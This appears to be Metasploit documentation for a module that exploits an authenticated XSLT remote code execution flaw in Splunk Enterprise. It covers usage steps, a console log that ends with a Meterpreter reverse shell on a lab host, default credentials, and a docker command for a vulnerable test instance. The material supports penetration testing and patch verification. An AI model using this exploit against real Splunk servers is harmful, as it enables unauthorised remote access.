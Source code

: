 ## Vulnerable Application

This Metasploit module exploits a Remote Code Execution (RCE) vulnerability in Splunk Enterprise.
The vulnerability affects versions 9.0.x prior to 9.0.7 and 9.1.x before 9.1.2.
The exploit takes advantage of a flaw in the XSLT transformation functionality of Splunk Enterprise
and requires valid credentials to be executed successfully, with the default credentials often being admin:changeme.

Upon successful exploitation, the attacker is able to execute code with the same privileges as the Splunk service user.
Typically, this user is 'splunk' and the resulting shell will have permissions associated with this user account,
which may vary depending on the specific environment and configuration of the Splunk service.

## Verification Steps
1. **Start Metasploit**: Launch `msfconsole` in your Metasploit framework.
2. **Select the Module**: Use the module with the command `use exploit/unix/http/splunk_xslt_authenticated_rce`.
3. **Disable AutoCheck**: Optionally, you can disable the automatic vulnerability check with `set AutoCheck false`.
4. **Execute the Exploit**: Use the `exploit` command to run the exploit.

## Scenarios
```
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(unix/http/splunk_xslt_authenticated_rce) > options

Module options (exploit/unix/http/splunk_xslt_authenticated_rce):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   PASSWORD         changeme         yes       Password for Splunk
   Proxies                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RANDOM_FILENAME  gWQgBqnz         no        Random filename with 8 characters
   RHOSTS                            yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasp
                                               loit.html
   RPORT            8000             yes       The target port (TCP)
   SSL              false            no        Negotiate SSL/TLS for outgoing connections
   USERNAME         admin            yes       Username for Splunk
   VHOST                             no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      eXHMuZOtzdPG     no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.1.5      yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(unix/http/splunk_xslt_authenticated_rce) > set rhosts chocapikk.lab
rhosts => chocapikk.lab
msf6 exploit(unix/http/splunk_xslt_authenticated_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.5:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Successfully authenticated on the Splunk instance
[+] The target appears to be vulnerable. Exploitable version found: 9.1.1
[+] Successfully authenticated on the Splunk instance
[*] Extracting CSRF token from cookies
[+] CSRF token successfully extracted: 4066849599386392852
[+] Malicious file uploaded successfully
[*] Sending job search request to /en-US/splunkd/__raw/servicesNS/admin/search/search/jobs
[*] Triggering XSLT transformation at /en-US/api/search/jobs/1701424044.745/results?xsl=/opt/splunk/var/run/splunk/dispatch/1701424043.744/gWQgBqnz.xsl
[+] XSLT transformation triggered successfully
[*] Executing payload at /en-US/splunkd/__raw/servicesNS/admin/search/search/jobs
[+] Payload executed successfully
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.1.5:4444 -> 172.17.0.2:60690) at 2023-12-01 10:47:25 +0100

meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Red Hat Enterprise Linux 8 (Linux 6.4.10-060410-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

### Exploitation Process
1. **Authentication**: The module authenticates using provided credentials.
2. **CSRF Token Extraction**: Extracts a CSRF token from the Splunk server for subsequent requests.
3. **Malicious File Upload**: Uploads a malicious XSL file to the server.
4. **Triggering XSLT Transformation**: Initiates an XSLT transformation to execute the payload.
5. **Executing Payload**: Executes the payload, resulting in a reverse shell or similar access.

### Creating a Vulnerable Splunk

```
docker run -p 8000:8000 -e "SPLUNK_PASSWORD=Password^" -e "SPLUNK_START_ARGS=--accept-license" -it splunk/splunk:9.1.1
```
To create a vulnerable user, login with admin, then browse:
settings > users > New User
    Create a new user with the 'user' and 'splunk-system-role' role

### Expected Results
- This exploit requires valid credentials for successful execution.

